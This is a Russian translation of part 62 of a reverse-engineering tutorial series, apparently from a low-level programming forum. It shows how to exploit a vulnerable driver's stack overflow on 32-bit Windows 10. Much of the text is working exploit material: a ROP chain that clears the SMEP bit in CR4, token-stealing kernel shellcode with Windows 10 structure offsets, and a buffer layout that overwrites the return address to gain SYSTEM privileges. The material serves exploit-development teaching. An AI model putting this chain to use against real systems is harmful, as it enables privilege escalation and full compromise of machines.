# Часть 62

[\[Используемые материалы\]](.gitbook/assets/files/62.zip)

Мы возвращаемся после праздников с новыми туториалами. В этом туториале мы увидим вариант эксплуатации того же самого драйвера, который мы видели для **WINDOWS 7 32** бит. Только теперь сделаем для **WINDOWS 10 32** бит.

Разница, как мы сказали, состоит в **SMEP**. Это защита позволяет избежать перехода ядра на выполнение страниц, помеченных как пользовательские. Как мы делали в примерах, которые мы видели до сих пор, мы выделяли страницу в пользовательском режиме с разрешением на выполнение. Когда мы берем на себя контроль на страницей, мы переходим туда, где находится наш шеллкод.

Тот, кто хочет углубиться по теме **SMEP**, здесь есть очень хорошее объяснение. Но оно английском языке.

[https://www.coresecurity.com/system/files/publications/2016/05/Windows SMEP bypass U=S.pdf](https://www.coresecurity.com/system/files/publications/2016/05/Windows%20SMEP%20bypass%20U%3DS.pdf)



Бит **20** отладочного регистра **CR4** - это бит, который активирует защиту **SMEP**. Следовательно, для того, чтобы защита не работала, необходимо будет сбросить этот бит с помощью **ROP** перед тем, как перейти к выполнению блока, выделенного в режиме пользователя.



Здесь мы видим **BUF**, который был исполняемым буфером, созданным в пользовательском режиме с правами на выполнение, куда затем мы сразу переходим на выполнение, когда мы провоцируем переполнение и перезаписываем адрес возврата.



Здесь с адресом пользовательского буфера мы перезаписывали адрес возврата таким значением.

```python
struct.pack("<L", 0x0BAD0B0B0)
```

Программа не позволяет нам копировать данные дальше, так как она выходит из цикла и заканчивает копирование.


Прежде всего, мы должны сказать, что для того, чтобы **WINDOWS 10** функционировал как узел отладки ядра, после установки **VKD**, как мы видели в предыдущих главах, и перед перезапуском **VKD** необходимо набрать только один раз в консоли с правами администратора такую команду.

```console
BCDEDIT /dbgsettings serial
```

И здесь согласиться. Мы перезагрузим компьютер. Другая вещь, которую вы увидите состоит в том, что после перезагрузки произойдет нечто подобное.



Где мы должны нажать **F8**.



И здесь отключаем подпись драйверов умышленно, что мешает нам загрузить драйвер **VKD**. Кроме того, это позволит нам загрузить драйвер, для эксплуатации, который явно не подписан.

В случае эксплуатации драйвера какой-либо программы или аппаратного обеспечения, он будет подписан и загружен без проблем.

После всего этого запустится **WINDBG** и прервется. Мы продолжаем нажимать **G**. Отладчик продолжит выполнение до тех пор, пока не запустится система.



Я загружаю драйвер с помощью **OSRLOADER**.



Затем нажимаю **REGISTER SERVICE**.



И наконец **START SERVICE**.

Мы уже знаем, что если мы хотим протестировать эксплоиты в **PYTHON**, нам нужно будет установить его на целевой машине и поместить в переменные окружения. В противном случае нам придется скомпилировать его в **C** или **C++** со встроенной библиотекой выполнения, которая работает без проблем.

Теперь мы должны

1. Добавить **ROP**, который отключит **SMEP** \(должна быть определена точная версия **WINDOWS\)**
2. Изменить шеллкод, чтобы украсть токен, который мы использовали в **WINDOWS 7**, который здесь не будет работать, потому что структуры немного изменены.

Помните, что **ROP** зависим от версии системы. В моем случае **NTOSKRNL.EXE** версии **10.0.15063.483**


Что соответствует этой версии **WINDOWS**. В другой версии он работать не будет.


Конечно, из консоли обычного пользователя вы можете узнать версию **WINDOWS**. Поэтому в профессиональном эксплоите версия будет обнаруживаться автоматически и в зависимости от неё, будет отправлен соответствующий **ROP**.

Но в моем случае я сделаю это только для этой версии. Я не хочу так много работать. Вы сами на практике, можете это сделать вместо меня.



Я установлю **BP** на выходе из цикла, но перед выходом из **WINDBG** я посмотрю на значение регистров. Затем выполню **DEBUG-BREAK**.



Здесь мы должны увидеть все регистры. Также существует команда **R** + **РЕГИСТР**, чтобы увидеть регистры отладки.


Мы видим, что значение регистра **CR4** равно **0x6E9** и очевидно, что бит **20** отключен. Но, как это может быть, если я в **WINDOWS 10**.

Если я перейду к двоичному представлению числа **0x6E9**.

```console
bin(0x6E9)
0B11011101001
```

Младший бит равен **0**. Очевидно, что происходит заполнение нулями влево до завершения **32х** бит.

>0b000000000000**0**000000000**11011101001**

Жирным шрифтом выделен бит **20**, и он равен нулю, поэтому на этой машине я могу работать без проблем с **SMEP**.



Я подозреваю что у меня старая версия **VMWARE**, которая не поддерживает **SMEP**, или что хостовая машина очень стара. На всякий случай я установил **VMWARE 14** и когда я повторяю процедуру с той же самой целью **WINDOWS 10**.



Хорошо. Это еще одно значение. Если мы посмотрим это значение в двоичном виде.

> bin\(0x1406E9\)
>
> '0b**1**01000000011011101001'

Мы видим, что бит **20** равен **1**, поэтому здесь **SMEP** включен.

Есть ли способ без отладки ядра, т.е. через пользовательскую программу, узнать, включен ли **SMEP**?

```python
SHELLCODE = "\X33\XC9"
SHELLCODE += "\X33\XC0"
SHELLCODE += "\X33\XDB"
SHELLCODE += "\XB8\X07\X00\X00\X00" # "MOV EAX,7"
SHELLCODE += "\X0F\XA2" # "CPUID"
SHELLCODE += "\X8B\XC3" # "MOV EAX,EBX"
SHELLCODE += "\XC3" # "RET"
```

Я выполняю этот код в программе пользовательского режиме. Мне возвращается в регистре **EAX** значение если включен **SMEP** или нет.

Здесь я обнулил регистры вместо **XOR** и написал две необходимые инструкции, чтобы увидеть, что они вернут в регистр **EBX** на машине, на которой не включен **SMEP**.



**EBX** содержит **2**.

Я готовлюсь сделать тест на другой машине.


Мы видим, что **EBX** содержит совсем другое значение равное **0x001C2FBB**.



Я выполняю операцию **AND** над результатом и значением **0x80**.

```console
hex(0x80 & 0x001C2FBB)
'0x80'
hex(0x80 & 0x002)
'0x0'
```

Мы видим, что если результат равен нулю, **SMEP** отсутствует, а если он отличается от нуля, **SMEP** существует.

Можно ли сделать этот тест из **PYTHON**? Давай посмотрим.

Я использую этот модуль **CPUID**.

[https://github.com/flababah/cpuid.py](https://github.com/flababah/cpuid.py)

И положу его в ту же папку скрипта.



Это даст мне значение регистров. Второе значение, это регистр **EBX**, который равен **2** на машине без **SMEP**.


Мне возвращается десятичное значение, которое я получил раньше.


Таким образом, я могу добавить код в начало моего скрипта, чтобы он обнаруживал, включен ли **SMEP** или нет.

Хорошо. У нас уже есть почти все. Нам нужен **ROP**, шеллкод и чтение адреса базы **NT**, чтобы можно было исполнить там цепочку **ROP**.

Вы скажете, как я получу гаджеты в ядре? С **MONA** это не получится, а **IDASPLOITER** не возвращает результаты даже в ядре, поэтому он не работает для нас.

[https://drive.google.com/open?id=1VbN3kipWQe9ti7WGheGSmbG9xOn4uaQW](https://drive.google.com/open?id=1VbN3kipWQe9ti7WGheGSmbG9xOn4uaQW)

Здесь есть утилита для поиска гаджетов в статической форме, будь то модуль ядра или что-то еще. Вы передаете ему имя и количество максимальных гаджетов, и он ищет гаджеты для вас, чтобы потом сохранить их в текстовом файле, чтобы затем разобрать их с комфортом.



```console
RP-WIN-X86.EXE -F NTOSKRNL.EXE -R 5 > PEPE.TXT
```

Хорошо. C помощью этой команды мы сохраним все гаджеты в текстовом файле с именем **PEPE.TXT**.



Это большой файл. Но это и мощный инструмент, который служит и находит гаджеты в любом модуле.

Чтобы найти базу **NT**, мы используем **ENUMDEVICEDRIVERS**, который возвращает список с именами и базами всех драйверов. Обычно **NT** является первым, но мы можем сравнивать имя в цикле, пока не найдем нужный нам модуль и не найдем базу для него. Я вижу, что если я выполню скрипт после импорта отсутствующих модулей, скрипт будет работать и печатать базу **NT**.



Короче говоря, я обнаружил, что эти гаджеты, предназначенные для чтения регистра **CR4**, помещают в регистр **ECX** значение **0xFFEFFFFF**, затем исполняется инструкция **AND EAX ECX** которая сбрасывает **20** бит, а затем сохраняют его снова в **CR4**. Это и есть наш **ROP**.

```python
INPUT = STRUCT.PACK("<I", NT + 0X11FC10) # MOV EAX, CR4 - RET
INPUT += STRUCT.PACK("<I", 0X75757575) # JUNK
INPUT += STRUCT.PACK("<I", 0X76767676) # JUNK
INPUT += STRUCT.PACK("<I", NT + 0X51976F) # POP ECX; RET
INPUT += STRUCT.PACK("<I", 0XFFEFFFFF) # TO DISABLE SMEP
INPUT += STRUCT.PACK("<I", NT + 0X50095C) # AND EAX,ECX; RET
INPUT += STRUCT.PACK("<I", NT + 0X22F2DA) # MOV CR4,EAX; RET4
```

Проблема в том, что я не могу поместить шеллкод под адресом возврата просто так, потому что там под адресом возврата находится указатель на источник, который читается, и если я перезапишу его, то может случиться сбой. Нужно сделать всё правильно.



Я вижу что, передавая только один **DWORD** адреса возврата, перезаписывается указатель на **USERBUFFER**, который является источником, так что не так-то просто поместить **ROP** внизу.

```python
DATA = SHELLCODE + ((0X828 -LEN(SHELLCODE)) * "A") #SHELLCODE
DATA+= STRUCT.PACK("<I", NT + 0X51976F) #RETURN (POP ECX-RET)
DATA+= STRUCT.PACK("<L",INT(BUF)+0X82C) #PUNTERO A SOURCE QUE PISO
DATA+= INPUT # ROP
DATA+= STRUCT.PACK("<L",0X0BAD0B0B0 ) # FIN
```

Одной из возможностей было бы перезаписать этот указатель указателем на тот же шеллкод ниже. В этом случае у меня есть источник. Когда код перезаписывает его, он начинает указывать на начало моего шеллкода + **0x82C**, где находится **ROP**, поэтому код продолжает копировать его туда же ниже и ничего не сломается. Также я перезаписываю адрес возврата с помощью гаджета **POP ECX** - **RET**, чтобы при переходе к исполнению программа пропускала этот указатель на источник и переходила прямо к **ROP**, который был ниже.

Я могу расположить **ROP** так, чтобы в начале у меня было несколько **RET**, чтобы компенсировать то, что возвращается из **RET8**, и удалить промежуточные отступы.

```python
INPUT = STRUCT.PACK("<I", NT + 0X519770) *4 # RET
INPUT += STRUCT.PACK("<I", NT + 0X11FC10) # MOV EAX, CR4 - RET
INPUT += STRUCT.PACK("<I", NT + 0X51976F) # POP ECX; RET
INPUT += STRUCT.PACK("<I", 0XFFEFFFFF) # TO DISABLE SMEP
INPUT += STRUCT.PACK("<I", NT + 0X50095C) # AND EAX,ECX; RET
INPUT += STRUCT.PACK("<I", NT + 0X22F2DA) # MOV CR4,EAX; RET4
INPUT += STRUCT.PACK("<I", INT(BUF)) # A SHELLCODE
```

Когда я выполняю этот код, я прихожу в **RET**.



И я начинаю трассировать.


Если вы не видите код, нажмите клавишу **F7**, а если все равно не видите, нужно создать там сегмент щелкнув правой кнопкой мыши.




Низкий адрес начала сегмента, который охватывает область, где я нахожусь, и достаточно любого имени. Я снова нажимаю клавишу **F7**. И появляется код.



Затем **ROP** переходит сюда.


Где значение **EAX** помещается в **CR4**. Затем идёт **POP ECX - RET**, где программа помещает в стек значение **0xFFEFFFFF**.



Затем идёт **AND** для сброса бита **20**.



А затем снова сохраняется измененное значение в регистр **CR4**.



Напомним, что это раньше это было значение **0x1406E9**, а теперь значение равно **0x406E9**, у которого сброшен бит **20**.


> bin\(0x406E9\)
>
> '0b**0**01000000011011101001'

Затем остается перейти к самому шеллкоду, очень похожему на тот, что был в **WINDOWS 7**, но структуры меняются. Посмотрим.



Первое, это то что мы выполняем это **NOP**. Это означает, что **SMEP** выключен правильно. Но здесь машина может выйти из строя и перезагрузится.



Напомним, что **FS:124** является указателем на структуру **ETHREAD**, объяснение, которой мы уже давали в **WINDOWS** 7. Здесь изменится только некоторое смещение.



В **WINDBG**, включенном в **IDA**, мы видим структуру для **WINDOWS 10**.


Так как в первом поле находится **KTHREAD** оно занимает **0x350** байт. Поля, с которыми мы работаем, находятся внутри неё.

Мы видим, что здесь, в отличие от **WINDOWS 7**, этот **APCSTATE**, имеющий тип **\_KAPC\_STATE**, был со смещением **0x50**, здесь он со смещением **0x70**.



По смещению **0x10** этой структуры





В **EAX** мы видим, что это знаменитая структура **EPROCESS** текущего процесса сохраняющаяся в **ECX**.



Мы видим, что **PCB** который является типом **\_KPROCESS** находится по смещению **0**, поэтому он совпадает с адресом в **\_EPROCESS**. Проблема в том, что здесь шеллкод ищет смещение **0xFC** и, очевидно, он не находится его внутри **KPROCESS**, потому что длина равна **0xB0**, поэтому поле находится в **EPROCESS** чуть ниже.



Поэтому шеллкод читает токен текущего процесса по смещению **0xFC** и переносит его в регистр **EBX**.



А из поля **0xB8** читается **ACTIVEPROCESSLINKS**.



Это мы объяснили в версии для **WINDOWS 7**.



Это **FLINK**, другими словами он указывает на **ACTIVEPROCESSLINK** следующего процесса, так как он находится по смещению **0xB8**, поэтому нужно вычесть эту константу, чтобы найти **EPROCESS**следующего процесса.



Затем происходит сравнение содержимого по смещению **0xB4**, которое является **PID**, пока не найдется процесс **PID 4** или **SYSTEM**.


Как только шеллкод покидает **ЦИКЛ**, потому что он обнаружил процесс **SYSTEM**, в **EAX** остается его **EPROCESS**. Шеллкод читает токен по смещению **0xFC** и копирует его в текущий процесс **EPROCESS** который был в **ECX**.

Затем остается вернется правильно к процессу, без сбоев, что непросто. Токен готов.

Одна из техник заключается в том, чтобы трассировать программу, когда она проходит через ту же функцию, но без переполнения, и продолжить, когда она возвращается из каждой функции, и смотреть на стек, пытаясь увидеть, что при переполнении она возвращается аналогичным образом.



Поскольку здесь я возвращаюсь без переполнения, а затем здесь есть **RETN8**, и стек находится в этой позиции, поэтому программа вернется сюда.



Поэтому я пытаюсь вернуться в то же место, где стек находится в том же положении, когда есть переполнение, и я должен использовать **RETN8**.

Вы видите, что когда я вхожу, чтобы выполнить свой шеллкод, стек довольно похож.



Прибываю в **POPAD**.


Со стеком всё хорошо. Поэтому я должен удалить инструкцию **ADD ESP**, **0C**, которая использовалась для другого эксплойта, удалить этот **PUSH** и изменить **RET** на **RETN 8**, и всё должно заработать.

Это можно сделать так.

```python
SHELLCODE = STRUCT.PACK("<I", 0X90909090)

# --[ SETUP]
SHELLCODE += "\X60" # PUSHAD
SHELLCODE += "\X64\XA1\X24\X01\X00\X00" # MOV EAX, FS:[KTHREAD_OFFSET]

# I HAVE TO DO IT LIKE THIS BECAUSE WINDOWS IS A LITTLE SPECIAL
# THIS JUST GETS THE EPROCESS. WINDOWS 7 IS 0X50, NOW ITS 0X80.
SHELLCODE += "\X8D\X40\X70" # LEA EAX, [EAX+0X70];
SHELLCODE += "\X8B\X40\X10" # MOV EAX, [EAX+0X10];
SHELLCODE += "\X89\XC1" # MOV ECX, EAX (CURRENT _EPROCESS STRUCTURE)

# WIN 10 RS2 X86 TOKEN_OFFSET = 0XFC
# WIN 07 SP1 X86 TOKEN_OFFSET = 0XF8
SHELLCODE += "\X8B\X98\XFC\X00\X00\X00" # MOV EBX, [EAX + TOKEN_OFFSET]

# --[ COPY SYSTEM PID TOKEN]
SHELLCODE += "\XBA\X04\X00\X00\X00" # MOV EDX, 4 (SYSTEM PID)
SHELLCODE += "\X8B\X80\XB8\X00\X00\X00" # MOV EAX, [EAX + FLINK_OFFSET]
SHELLCODE += "\X2D\XB8\X00\X00\X00" # SUB EAX, FLINK_OFFSET
SHELLCODE += "\X39\X90\XB4\X00\X00\X00" # CMP [EAX + PID_OFFSET], EDX
SHELLCODE += "\X75\XED" # JNZ

# WIN 10 RS2 X86 TOKEN_OFFSET = 0XFC
# WIN 07 SP1 X86 TOKEN_OFFSET = 0XF8
SHELLCODE += "\X8B\X90\XFC\X00\X00\X00" # MOV EDX, [EAX + TOKEN_OFFSET]
SHELLCODE += "\X89\X91\XFC\X00\X00\X00" # MOV [ECX + TOKEN_OFFSET], EDX

# --[ RECOVER]
SHELLCODE += "\X61" # POPAD
SHELLCODE += "\X31\XC0" # RETURN NTSTATUS = STATUS_SUCCESS
SHELLCODE += "\XC2\X08" # RET
```

Давайте попробуем это.



Куда программа достигнет этой точки, будет ли она работать дальше? Нет.

Весьма вероятно, что дело в **POP EBP** когда не происходит переполнения.


Эта инструкция удаляет со стека значение.



**ESP** устанавливается в это значение.

Я поменяю здесь только **RETN**, а не **RETN**, поэтому происходит возврат и тогда я могу добавить **EBP** в свой шеллкод.

```python
INPUT = STRUCT.PACK("<I", NT + 0X519770) * 2 # RET
INPUT += STRUCT.PACK("<I", NT + 0X11FC10) # MOV EAX, CR4 - RET
INPUT += STRUCT.PACK("<I", NT + 0X51976F) # POP ECX; RET
INPUT += STRUCT.PACK("<I", 0XFFEFFFFF) # TO DISABLE SMEP
INPUT += STRUCT.PACK("<I", NT + 0X50095C) # AND EAX,ECX; RET
INPUT += STRUCT.PACK("<I", NT + 0X11FC1E) # MOV **CR4,EAX; RET**
INPUT += STRUCT.PACK("<I", INT(BUF)) # A SHELLCODE
```

И в начале моего шеллкода я помещаю **POP EBP** , чтобы вернуть значение из стека перед вызовом **PUSHAD**.

Теперь, если уже всё работает отлично, я запускаю блокнот, потому что **MICROSOFT** в **WINDOWS 10** иногда ограничивает использование калькулятора.



Здесь мы видим пользователя **SYSTEM**, другими словами мы смогли отключить **SMEP** и повысить привилегии в **32**-битной версии **WINDOWS 10**.

В **64** битных системах метод тот же. Конечно, вам нужно адаптировать смещения структур. Также вы должны сохранить значение регистра **CR4**, чтобы сделать вызов еще раз, чтобы вызвать второй **ROP**, чтобы восстановить значение, потому что, не в **64** битных системах **PATCH GUARD** время от времени сканирует и осознает изменения и происходит сбой системы, но сам по себе это тот же самый трудоемкий метод, но идея та же.

* * *

Автор оригинального текста — Рикардо Нарваха.

Перевод и адаптация на русский язык — Яша Яшечкин.

Перевод специально для форума системного и низкоуровневого программирования - WASM.IN

05.01.2018

Источник:

[**http://ricardonarvaja.info/WEB/INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO/62-INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO%20PARTE%2062.7z**](http://ricardonarvaja.info/WEB/INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO/62-INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO%20PARTE%2062.7z)
